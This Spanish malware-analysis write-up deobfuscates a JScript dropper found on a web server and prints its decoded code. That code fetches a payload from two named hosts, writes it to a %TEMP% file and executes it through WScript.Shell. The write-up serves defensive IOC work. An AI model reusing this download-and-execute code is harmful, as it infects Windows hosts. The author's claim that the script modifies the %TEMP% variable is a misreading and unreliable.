 ```yaml
---
author: nyaboron
title: Malware alojado en un servidor web
date: 2020-12-22
categories:
    - Análisis de código
---
```



Han encontrado un malware alojado en un servidor web donde es evidente la ofuscación. Dado que se trata de un incidente grave, se necesita analizar este fragmento y extraer la funcionalidad que posee y los IOC crear reglas eficaces en los sistemas de defensa de la empresa.

> [Descargar la muestra](files/shellcode.7z)


## Desofuscar la muestra

En un primer intento de entender el shellcode busqué símbolos o distintivos de algún lenguaje de programación, al final acabé separando el código “bloques” fijándome en lo que podía ser strings por estar rodeado de comillas dobles y usando los paréntesis y corchetes, el código tabulado queda de la siguiente forma.

![](images/image-001.png)

Después pensé que podía tratarse de algún ensamblador donde con el \x indica los opcodes y los \u registros o nombres de variables ofuscadas de alguna forma, al poco que me puse a probar mi teoría ví que no era viable. Más adelante caí que los caracteres puestos /* *\ debían ser un comentario.

Por tanto busco entre los lenguajes que usan el comentario en bloque /* *\ cuales están relacionados con la palabra reservada «this» junto a unos corchetes, para delimitar el final del código no se está usando un delimitador como el punto y coma de C. Finalmente tampoco llegué a una conclusión en claro. Luego me dí cuenta que lo estaba complicando demasiado, los \u podrían ser caracteres en unicode, decodifico el string contenido en los corchetes de this.

|  e  | \u0076 | \x61 | \u006c |
|:---:|:------:|:----:|:------:|
| ‘e’ |   ‘v’  |  ‘a’ |   ’l’  |

Con la palabra “eval” puedo acotar que es código php o javascript y que además obtengo más información decodificando el resto del shellcode, para no hacerlo a mano uso la herramienta online hex decoder y tras añadir los paréntesis y corchetes queda:

```JS
this["eval"]("new ActiveXObject("WScript.Shell")")["Run"]("CMD /c echo ...",0)
```

Buscando por Google vi que ActiveXObject es una extensión de JS por lo que definitivamente descarto PHP. El objeto ActiveXObject es sólo soportado por Internet Explorer y junto al argumento «WScript.Shell» permite ejecutar código en la línea de comandos de windows.

Ahora queda ver mejor qué comando se va a ejecutar, del código puesto arriba los puntos suspensivos corresponden a este código:

![](images/image-003.jpg)

Falta decodificar la última línea, esta sigue una codificación llamada Uniform Resource Identifier (URI). Para no hacer la conversión a mano uso la herramienta online urldecoder y una vez tabulado obtengo el siguiente código JS:

```JS
(function(){;
tQINHnv= (24219,"%T" "EMP%");
eAtBFv= (30004,"Ex" "ec");
RDPOj= (32030,"ne" "w ActiveXObject(\"ADODB.Stream\")");
piGnjEx= (84954,"op" "en");
GWZam= (57011,"Ex" "pandEnvironmentStrings");
Ktcbl= (80330,"ht" "tp://horcor.com/ese.tf");
zEIJ= (34953,"ty" "pe");
TwSRQ= (3016,"ne" "w ActiveXObject(\"Msxml2.ServerXMLHTTP\")");
ohjQCX= (42836,"ev" "al");
MjrI= (47115,"sa" "veToFile");
BLaOGnI= (25381,"ht" "tp://www.nemcicenadhanou.cz/nvdtime.prs");
HSMGaIEQ= (18246,"se" "nd");
AtZT= (35382,"Wr" "ite");
FFMNzrO= (21478,"re" "sponseBody");
ajtgFv= (72806,"GE" "T");
iLmLQXZ= (91961,"\\" "tmp484430.361");
NuRV= (2861,"ne" "w ActiveXObject(\"WScript.Shell\")");
... // más adelante se muestra y explica el resto del código
})();
```

Para hacerlo legible sustituyo los nombres formados por letras aleatorias por el string correspondiente, el resto del código queda:

```JS
qjlCf= (41901,this["eval"]("new ActiveXObject(\"WScript.Shell\")"));
nwPG= (92838,this["eval"](new ActiveXObject(\"ADODB.Stream\")"));
vPpgA= (92787,this["eval"]("new
ActiveXObject(\"Msxml2.ServerXMLHTTP\")"));
CMqpUgZb= (31987,qjlCf["ExpandEnvironmentStrings"]("%TEMP%")
"\\tmp484430.361");
nwPG["type"]= (88058,1);
nwPG["open"]();
rcZXxqc= (1768,null);
```

Ahora se puede entender que va a hacer uso de nuevo del objetivo ActiveXObject, en el primero para ejecutar código en la cmd, en el segundo con el argumento ADODB Stream para escribir o leer archivos y en el tercero con el argumento Msxml2.ServerXMLHTTP para obtener una respuesta xml. En la cuarta variable hace uso del ActiveXObject para ejecutar una función de la WinApi32 para modificar el valor de la variable de entorno %TEMP%.

A continuación viene un bloque try catch:

```JS
try{
vPpgA["open"]("Get","http://horcor.com/ese.tf",false);
vPpgA["send"]();
rcZXxqc= (69370,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc);
}catch(eKiNjSK){}
```

En este bloque hace un petición http del tipo get a una web, de la respuesta obtenida extrae el campo reponseBody mediante el ActiveXObject(\»Msxml2.ServerXMLHTTP\») y para acabar el campo obtenido se escribe en un fichero usando ActiveXObject(\»ADODB.Stream\»).
A continuación viene un bloque if, viene a ser lo mismo a lo explicado en el try catch con una
web distinta, solo se ejecuta si el recurso anterior no es accesible.

```JS
if(null==rcZXxqc){
try{
vPpgA["open"]
("Get","http://www.nemcicenadhanou.cz/nvdtime.prs",false);
vPpgA["send"]();
rcZXxqc= (18265,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc); }catch(lEwiG){} }
```

Para acabar las última líneas son:

```JS
nwPG["saveToFile"](CMqpUgZb,2);
qjlCf["Exec"](CMqpUgZb);
```

En la primera llama a la función saveToFile con la variable que contiene el código para modificar las variables de entorno, posteriormente llamando a Exec ejecutar el archivo guardado.

Resumiendo todo lo visto, se trata de un shellcode que ejecuta código en la cmd usando una función de JS solo disponible en Internet Explorer, después el código ejecutado en la cmd a su vez contiene código JS para modificar la variable de entorno %TEMP% con el valor \\tmp484430.361 y para escribir un fichero con la información obtenida desde la petición get a un dominio.

## Conclusiones

He hecho muy poca programación web asi que me costó encontrarle el truco a esta shellcode, no estoy acostumbrado a usar la consola del inspector de los navegadores lo que hace más fácil la desofuscación del código ya que con ponerla (de forma que el código no funcione…) te realiza la mayor parte de la tradución en la salida de error, asi habría evitado usar una herramienta web que se cómia demasiados caracteres como las llaves.